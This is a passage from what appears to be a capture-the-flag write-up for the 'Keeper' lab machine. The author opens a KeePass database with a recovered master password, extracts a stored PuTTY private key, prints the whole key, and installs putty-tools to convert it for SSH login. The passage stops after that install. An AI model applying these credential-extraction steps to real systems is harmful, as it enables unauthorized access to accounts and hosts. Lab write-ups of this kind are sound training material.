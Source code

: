 I open the file (the password that I used it is `rødgrød med fløde` ):
```sh
┌──(kali㉿kali)-[~/keeper.htb]
└─$ keepassxc passcodes.kdbx
```

I can see `keeper.htb (Ticketing Server)`, I copy that Notes in a file:
```sh
┌──(kali㉿kali)-[~/keeper.htb]
└─$ nano Putty-User-Key-File.txt

┌──(kali㉿kali)-[~/keeper.htb]
└─$ cat Putty-User-Key-File.txt
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

I download `putty` to generate `id_rsa` with this file `Putty-User-Key-File.txt`:
```sh
┌──(kali㉿kali)-[~/keeper.htb]
└─$ sudo apt install putty-tools
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
Suggested packages:
  putty-doc
The following NEW packages will be installed:
  putty-tools
0 upgraded, 1 newly installed, 0 to remove and 810 not upgraded.
Need to get 607 kB of archives.
After this operation, 3,664 kB of additional disk space will be used.
Get:1 http://kali.download/kali kali-rolling/main amd64 putty-tools amd64 0.78-3 [607 kB]
Fetched 607 kB in 1s (839 kB/s)     
Selecting previously unselected package putty-tools.
(Reading database ... 417947 files and directories currently installed.)
Preparing to unpack .../putty-tools_0.78-3_amd64.deb ...
Unpacking putty-tools (0.78-3) ...
Setting up putty-tools (0.78-3) ...
Processing triggers for man-db (2.11.2-2) ...
Processing triggers for kali-menu (2023.3.1) ...
```
